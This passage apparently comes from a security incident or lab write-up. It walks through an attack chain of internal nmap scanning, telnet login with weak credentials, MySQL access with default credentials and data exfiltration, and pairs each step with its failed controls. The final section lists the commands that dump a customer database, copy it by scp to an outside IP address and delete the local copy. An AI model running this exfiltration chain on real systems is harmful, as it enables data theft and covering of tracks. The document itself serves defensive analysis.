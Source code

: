Identified nmap as installed and accessible.

Failed Controls:
The attacker could access and execute nmap.
Retaining nmap created a "living off the land" vulnerability. |
| E. Network Information Collection
Executed ifconfig to gather network configuration details.

Failed Controls:
Permissions allowed access to sensitive network configuration data. |
| F. Scanning the Internal Network
Command Executed: nmap 10.10.1.0/24

The attacker performed a scan, discovering open ports and services on internal devices.
(Telnet and HTTP services on 10.10.1.3)

Failed Controls:
The attacker exploited unrestricted access to nmap.
Retention of nmap created a "living off the land" vulnerability.
Legacy services such as Telnet and HTTP were still in use.
Unencrypted services (Telnet and HTTP) increased exposure to threats.
 |
| G.Lateral Movement to the Database
Command Executed: telnet 10.10.1
The attacker logged into the database server using weak credentials (phl/phl123)

Failed Controls:

Use of Deprecated Services(Telnet, an insecure protocol, was enabled)
Encryption for Data in Transit(Telnet communications were not encrypted)
Weak password policies allowed unauthorized access.
Router settings permitted Telnet traffic within the network.
 |
| H.Accessing the Database
Command Executed:
sudo mysql -u root -p

 The attacker logged into the MySQL database using default credentials

Failed Controls:
Default credentials were not updated or secured.
Role-Based Access Control (RBAC) was not implemented.
Lack of comprehensive system hardening measures.
No MFA was enforced for database access.
 |
| Exfiltrating Data
Commands Executed:

Queried data: SELECT * FROM customers LIMIT 5;
Exported data: mysqldump -u root -p phl > phl.db
Transferred data: scp phl.db fierce@178.62.228.28:/tmp/phl.db
Deleted local copy: rm phl.db

